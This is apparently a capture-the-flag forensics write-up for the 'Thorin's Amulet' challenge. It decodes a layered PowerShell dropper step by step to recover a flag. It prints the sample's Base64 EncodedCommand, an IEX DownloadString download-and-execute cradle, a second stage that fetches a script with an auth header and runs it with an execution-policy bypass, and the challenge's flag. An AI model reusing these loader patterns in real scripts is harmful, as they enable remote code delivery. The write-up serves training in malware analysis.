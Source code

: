 = Thorin's Amulet

Author:: 0x42697262
Category:: Forensics
Difficulty:: Very Easy
Play Date:: 2025/03/22 - 2025/03/25

[NOTE]
====
The challenge can be downloaded here: attachment::thorins-amulet/forensics_thorins_amulet.zip[forensics_thorins-amulet.zip]
====

== Overview

.Description
****
Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.
****

This forensics challenge involves analyzing a Base64-encoded PowerShell "malware" script.
The script retrieves another script from a web URL protected by basic authentication.
Inside the downloaded script lies the actual malware code—our flag.

== Investigation

I opened `artifact.ps1` and immediately noticed a Base64-encoded string being executed with `powershell.exe -EncodedCommand`.  

[NOTE]
====
The source code of the script can be downloaded attachment:thorins-amulet/files/artifact.ps1[here].
====

As I do not like running scripts without checking them first, I opened the script in a text editor:

.artifact.ps1
[, powershell]
----
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
----

=== Decoding the First Layer

Here's the relevant line:  

[, powershell]
----
powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
----

This suggests that the script is trying to execute a command encoded in *Base64*.  

Interestingly, the script contains a basic anti-analysis check:  

[, powershell]
----
if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
    exit
}
----

If the computer name isn’t `WORKSTATION-DM-0043`, the script terminates.
This is likely an attempt by the author to prevent execution on unintended machines.  

Since I was too lazy to open *CyberChef*, I extracted and decoded the Base64 string directly:  

[, bash]
----
cat artifact.ps1 | grep -Eo '"[A-Za-z0-9=/]+"' | tr -d \" | base64 -d
----

Explanation:
* `grep -Eo '"[A-Za-z0-9+/=]+"' artifact.ps1`  
** `-E`: Enables extended regular expressions.  
** `-o`: Outputs only the matched text, excluding surrounding content.  
** `"[A-Za-z0-9+/=]+"`: Matches a quoted Base64 string (Base64 consists of A-Z, a-z, 0-9, `+`, `/`, and `=` for padding).  
* `tr -d \"`  
** Removes double quotes from the matched Base64 string.  
* `base64 -d`  
** Decodes the extracted Base64 string.  

*However, a more robust approach would be to directly extract and decode the Base64 string in one step using `awk` and `base64 -d`*:

[, bash]
----
awk -F'"' '/EncodedCommand/ {print $2}' artifact.ps1 | base64 -d
----

But why is this better?
* Instead of searching for arbitrary quoted strings (grep method), it directly finds the EncodedCommand line.
* `awk -F'"' '{print $2}'` extracts only the content inside the quotes.
* More precise and avoids unintended matches.

This gave us:

[, powershell]
----
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
----

So, the script is attempting to download another payload from `http://korp.htb/update` using PowerShell’s `DownloadString` method.  

=== Fetching the Second Script

[NOTE]
====
The source code of `update.ps1` can be downloaded attachment:thorins-amulet/files/update.ps1[here].
====

.update.ps1
[, powershell]
----
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
----

In `update.ps1`, there is a function `aqFVaq`.

This function fetches another script from `http://korp.htb/a541a`, but this time it requires authentication via a custom HTTP header (`X-ST4G3R-KEY`).
Without this header, the request would fail.  

I used `curl` to manually download the script:  

[, bash]
----
curl http://korp.htb/a541a --header "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" -o a541a.ps1
----

Now, let’s check out `a541a.ps1`.  

== Reconstruction

[NOTE]
====
The source code of `a541a.ps1` can be downloaded attachment:thorins-amulet/files/a541a.ps1[here].
====

This is the entire `a541a.ps1` script:

.a541a.ps1
[, powershell]
----
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35 -split "(..)" | ?{$_} | % {[char][convert]::ToInt16($_,16)}) -join ""
----

Notice that a hex-encoded string is assigned to the variable `$a35` and the variable gets decoded on the next line.

Since nothing is being executed dynamically here, it should be safe to decode.  

=== Decoding the Payload

Running it in PowerShell:  

[, powershell]
----
$ powershell a541a.ps1
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
----

**Hence, flag captured! 🎉**

If you do not trust the code or do not know how to read powershell scripts, it is completely okay to copy the encoded flag hex values into CyberChef.

